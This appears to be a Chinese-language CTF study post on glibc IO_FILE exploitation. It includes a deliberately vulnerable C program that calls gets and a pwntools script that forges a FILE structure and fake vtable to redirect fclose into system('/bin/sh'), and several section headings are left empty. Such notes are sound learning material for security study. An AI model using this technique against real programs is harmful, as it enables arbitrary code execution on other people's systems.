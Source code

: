 ```yaml
---
title: IO_FILE学习笔记
date: 2022-9-15 20:32:00 +0800
author: sirius
categories: [CTF, pwn]
tags: [CTF, pwn]
math: false
typora-root-url: ../../SiriusHsh.github.io
typora-copy-images-to: ../assets/img/2022
---
```




首先跟着angelboy [这个视频](https://www.youtube.com/watch?v=_ZnnGZygnzE) 的节奏，学习一下文件利用的基本操作，ppt里有的内容全都不写了，直接看ppt吧。只记录一下学习过程中遇到的问题。



# 0x01  _lock的offset获取

`_lock`的offset如何获取？

![image-20220922222338848](/assets/img/2022/image-20220922222338848.png)

 `p &(*(struct _IO_FILE_plus *) buf_addr)->file->_lock`



# 0x02 如何call [rax+0x10]?

PPT里的example.c

```c
#include<stdio.h>
#include<stdlib.h>

char buf[0x100] = {0};
FILE *fp;
int main(){
   fp = fopen("./file.txt", "rw");
   gets(buf);
   fclose(fp);
}
```

![image-20220922215726442](/assets/img/2022/image-20220922215726442.png)

![image-20220922215819660](/assets/img/2022/image-20220922215819660.png)

首先是这一部分，我在libc2.23下实际跑了一下，并非图上所示的获得了一次`call [rax+0x10]`的机会

实际运行结果如下:

![image-20220922220342110](/assets/img/2022/image-20220922220342110.png)

会进入free

实际运行流程图：

**贴一个流程图**





那么如何获得`call [rax+0x10]`呢

答案是原先payload中开头padding部分 `"a"*0x88` 改成 `"a".ljust(0x88, "\x00")`

![image-20220922220510885](/assets/img/2022/image-20220922220510885.png)

分析：

![image-20220922221007513](/assets/img/2022/image-20220922221007513.png)

所以关键是`_flags`这个值，会影响进不进`_IO_file_close_it`



然后payload是`'/bin/sh'.ljust(0x88, '\x00')`时，会获得一次`call [rax+0x88]`，这个是`vtable->_close`

![image-20220922223233730](/assets/img/2022/image-20220922223233730.png)

![image-20220922223525729](/assets/img/2022/image-20220922223525729.png)

![image-20220922223611848](/assets/img/2022/image-20220922223611848.png)





这个example.c的wp

```python
from pwn import *


r = process('./baby_file')

context.log_level='debug'
context.terminal = ['tmux', 'splitw', '-h']
def debug(cmd=''):
    gdb.attach(r, cmd)
    pause()

# debug("bcall fclose")
#fp=0x601160 
buf=0x601060  
fake_vtable = buf+0x110
p = '/bin/sh\x00'.ljust(0x88, '\x00') + p64(buf+0x500) #_lock
p = p.ljust(0xd8, '\x00') + p64(fake_vtable) #vtable offset 0xd8
p = p.ljust(0x100, '\x00') + p64(buf)
p = p.ljust(0x110+0x88, '\x00') + p64(0x7ffff7a523a0) #system_addr, PIE & ASLR off, only for debug   

r.sendline(p)

r.interactive()
```



# 0x03 pwnable.tw上的seethefile

好像和视频里的练习题是一样的

以后做一下





# 0x04 house of orange (glibc 2.23)



# 0x05 house of orange (glibc 2.24)



# 0x06 WCTF 2017  wannaheap



# 0x07 HITCON 2017 : Ghost in The Heap



# 0x08 HCTF2017 babyprintf



# 0x09 House of Pig

##  **XCTF 2021 final**



# 0x10 house of apple

## pwn_oneday
